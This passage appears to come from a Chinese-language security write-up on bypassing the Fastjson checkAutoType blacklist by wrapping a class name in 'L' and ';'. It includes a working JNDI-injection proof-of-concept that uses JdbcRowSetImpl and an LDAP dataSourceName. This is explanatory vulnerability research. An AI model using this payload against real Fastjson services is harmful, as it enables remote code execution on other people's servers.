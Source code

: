 ```java
        return Array.newInstance(componentType, 0).getClass();
    }

    if (className.startsWith("L") && className.endsWith(";")) {
        String newClassName = className.substring(1, className.length() - 1);
        return loadClass(newClassName, classLoader);
    }
```

问题就出在下图代码上：

![9d5e68c2ef26557badccfca670540cc9.png](https://xzfile.aliyuncs.com/media/upload/picture/20200811152330-8e91dc2e-dba3-1.png)

当传入的className变量以”L”开头，并以”;”结尾，进入该if分支。在这个if分支中，程序将会把开头的”L”与结尾的”;”去掉，并递归调用loadClass加载这个类。因此可以下图这样构造来进行绕过

![54ce372006a50b8930efc41634dcb40b.png](https://xzfile.aliyuncs.com/media/upload/picture/20200811152340-94667736-dba3-1.png)

```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String jsonstr = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://localhost:1389/ExecTest\"," +
            " \"autoCommit\":true}";
    Object obj = JSON.parseObject(jsonstr);
    System.out.println(obj);
}
```

loadClass会将”L”与”;”去除后组成newClassName并返回

![5efedf30915eee73c1f30a0f2e229e89.png](https://xzfile.aliyuncs.com/media/upload/picture/20200811152351-9abad58c-dba3-1.png)

这一操作在匹配黑白名单之后，Lcom.sun.rowset.JdbcRowSetImpl;恰好可以绕过黑名单中的限制。后续checkAutoType检测机制进行了一系列的安全加固，大体上都是黑名单防逆向分析、扩展黑名单列表等，但checkAutoType检测机制没有太大的改变。受篇幅影响，这里就不再详细分析了。